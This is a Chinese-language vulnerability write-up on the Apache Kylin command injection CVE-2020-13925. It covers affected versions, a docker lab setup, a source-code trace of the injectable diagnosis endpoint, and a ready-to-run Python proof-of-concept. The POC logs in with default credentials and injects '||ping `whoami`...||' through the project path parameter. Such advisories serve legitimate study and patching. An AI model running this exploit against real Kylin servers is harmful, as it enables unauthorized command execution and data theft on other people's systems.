







## Apache-Kylin-命令注入漏洞-CVE-2020-13925

## 漏洞描述

6月，京东安全的蓝军团队发现了一个 apache kylin 远程命令执行严重漏洞（ CVE-2020-13925）。黑客可以利用这个漏洞，登录任何管理员账号和密码默认未修改的账号，获得管理员权限。由于Apache Kylin被广泛应用于企业的大数据分析平台，因此该漏洞将对企业核心数据具有较大的危害，存在数据泄露风险，建议用户尽快升级软件至安全版本。

## 影响版本

> [!NOTE]
>
> Apache Kylin 2.3.0 ~ 2.3.2
>
> Apache Kylin 2.4.0 ~ 2.4.1
>
> Apache Kylin 2.5.0 ~ 2.5.2
>
> Apache Kylin 2.6.0 ~ 2.6.5
>
> Apache Kylin 3.0.0-alpha, Apache Kylin 3.0.0-alpha2, Apache Kylin 3.0.0-beta, Apache Kylin 3.0.0, Kylin 3.0.1,Kylin 3.0.2


## 环境搭建

这里使用 docker 来搭建需要的环境

[Kylin官方文档](http://kylin.apache.org/cn/docs/install/kylin_docker.html)

```
docker pull apachekylin/apache-kylin-standalone:3.0.1
```

> [!NOTE]
>
> 如果服务器内存较小，可不选择 -m 8G 参数

```
docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码**admin/KYLIN**登录，出现初始界面即为成功



## 漏洞复现

出现漏洞的代码文件在**server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java** 



```java
/**
     * Get diagnosis information for project
     */
    @RequestMapping(value = "/project/{project}/download", method = { RequestMethod.GET }, produces = {
            "application/json" })
    @ResponseBody
    public void dumpProjectDiagnosisInfo(@PathVariable String project, final HttpServletRequest request,
            final HttpServletResponse response) {
        try (AutoDeleteDirectory diagDir = new AutoDeleteDirectory("diag_project", "")) {
            String filePath = dgService.dumpProjectDiagnosisInfo(project, diagDir.getFile());
            setDownloadResponse(filePath, response);
        } catch (IOException e) {
            throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
        }

    }
```

这里可以看到 **{project}**参数是用户可控的变量，向下跟进**dumpProjectDiagnosisInfo**函数

```java
public String dumpProjectDiagnosisInfo(String project, File exportPath) throws IOException {
        aclEvaluate.checkProjectOperationPermission(project);
        String[] args = { project, exportPath.getAbsolutePath() };
        runDiagnosisCLI(args);
        return getDiagnosisPackageName(exportPath);
    }
```


首先通过**checkProjectOperationPermission**函数来检查该project是否许可，然后构建一个args的字符串数组，看一下**checkProjectOperationPermission**函数

```java
 public void checkProjectOperationPermission(String projectName) {
        ProjectInstance projectInstance = getProjectInstance(projectName);
        aclUtil.hasProjectOperationPermission(projectInstance);
    }
```

这里传入projectName，然后通过getProjectInstance来获取项目实例,跟进**getProjectInstance**

```java
private ProjectInstance getProjectInstance(String projectName) {
        return ProjectManager.getInstance(KylinConfig.getInstanceFromEnv()).getProject(projectName);
    }
```

因为 projectName 会被我们替换掉，所以不会获得一个正确的projectName,则会返回一个Null，查看下**hasProjectOperationPermission函数**

```java
@PreAuthorize(Constant.ACCESS_HAS_ROLE_ADMIN +
            " or hasPermission(#project, 'ADMINISTRATION')" +
            " or hasPermission(#project, 'MANAGEMENT')" +
            " or hasPermission(#project, 'OPERATION')")
    public boolean hasProjectOperationPermission(ProjectInstance project) {
        return true;
    }
```

这里并没有对projectName进行检验，只对用户身份进行了检验，当为ADMIN、ADMINISTRATION、MANAGEMENT、OPERATION等权限，该值默认返回为true，回到 dumpProjectDiagnosisInfo函数，向下继续跟进**runDiagnosisCLI**函数



```java
private void runDiagnosisCLI(String[] args) throws IOException {
        Message msg = MsgPicker.getMsg();

        File cwd = new File("");
        logger.debug("Current path: " + cwd.getAbsolutePath());

        logger.debug("DiagnosisInfoCLI args: " + Arrays.toString(args));
        File script = new File(KylinConfig.getKylinHome() + File.separator + "bin", "diag.sh");
        if (!script.exists()) {
            throw new BadRequestException(
                    String.format(Locale.ROOT, msg.getDIAG_NOT_FOUND(), script.getAbsolutePath()));
        }

        String diagCmd = script.getAbsolutePath() + " " + StringUtils.join(args, " ");
        CliCommandExecutor executor = KylinConfig.getInstanceFromEnv().getCliCommandExecutor();
        Pair<Integer, String> cmdOutput = executor.execute(diagCmd);

        if (cmdOutput.getFirst() != 0) {
            throw new BadRequestException(msg.getGENERATE_DIAG_PACKAGE_FAIL());
        }
    }
```

注意看这几行代码

```java
String diagCmd = script.getAbsolutePath() + " " + StringUtils.join(args, " ");
        CliCommandExecutor executor = KylinConfig.getInstanceFromEnv().getCliCommandExecutor();
        Pair<Integer, String> cmdOutput = executor.execute(diagCmd);
```

与 Apache Kylin 命令注入漏洞 CVE-2020-1956 类似，同样也是经过**execute**函数，而**digCmd**同样也是经过了命令拼接

```java
private Pair<Integer, String> runRemoteCommand(String command, Logger logAppender) throws IOException {
        SSHClient ssh = new SSHClient(remoteHost, port, remoteUser, remotePwd);

        SSHClientOutput sshOutput;
        try {
            sshOutput = ssh.execCommand(command, remoteTimeoutSeconds, logAppender);
            int exitCode = sshOutput.getExitCode();
            String output = sshOutput.getText();
            return Pair.newPair(exitCode, output);
        } catch (IOException e) {
            throw e;
        } catch (Exception e) {
            throw new IOException(e.getMessage(), e);
        }
    }

    private Pair<Integer, String> runNativeCommand(String command, Logger logAppender) throws IOException {
        String[] cmd = new String[3];
        String osName = System.getProperty("os.name");
        if (osName.startsWith("Windows")) {
            cmd[0] = "cmd.exe";
            cmd[1] = "/C";
        } else {
            cmd[0] = "/bin/bash";
            cmd[1] = "-c";
        }
        cmd[2] = command;

        ProcessBuilder builder = new ProcessBuilder(cmd);
        builder.redirectErrorStream(true);
        Process proc = builder.start();

        BufferedReader reader = new BufferedReader(
                new InputStreamReader(proc.getInputStream(), StandardCharsets.UTF_8));
        String line;
        StringBuilder result = new StringBuilder();
        while ((line = reader.readLine()) != null && !Thread.currentThread().isInterrupted()) {
            result.append(line).append('\n');
            if (logAppender != null) {
                logAppender.log(line);
            }
        }

        if (Thread.interrupted()) {
            logger.info("CliCommandExecutor is interruppted by other, kill the sub process: " + command);
            proc.destroy();
            try {
                Thread.sleep(1000);
            } catch (InterruptedException e) {
                // do nothing
            }
            return Pair.newPair(1, "Killed");
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

这样我们就可以通过控制 {project} 请求就可以造成命令注入

```
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

拼接后则出现

```
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

这里通过报错语句可以回显命令验证漏洞存在

```
 throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```



在修复中，过滤了||,&&等符号，造成无法命令注入



漏洞通报中共两个利用点

```
/kylin/api/diag/project/{project}/download  
/kylin/api/diag/job/{jobId}/download
```

查看函数发现利用方式相同，直接利用job会失败，因为 {project}默认有一个**learn_kylin**，而job没有



## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import re


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
        else:
            print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
            return response.cookies["JSESSIONID"]
    except:
        print("\033[31m[x] 漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, cookie):
    vuln_url = target_url + '/kylin/api/diag/project/%7C%7Cping%20%60whoami%60.111.111.111%7C%7C/download'
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if ".111.111.111||" in response.text:
            whoami = re.findall(r'ping: (.*?).111.111.111: 未知的名称或服务',response.text)[0]
            print("\033[32m[o] 存在漏洞，成功执行whoami，响应为{}\033[0m".format(whoami))
        else:
            print("\033[31m[x] 漏洞利用失败,||,&&等符号已被过滤，无法造成命令注入\033[0m")
    except:
        print("\033[31m[x] 请求超时\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    POC_2(target_url, cookie)
```

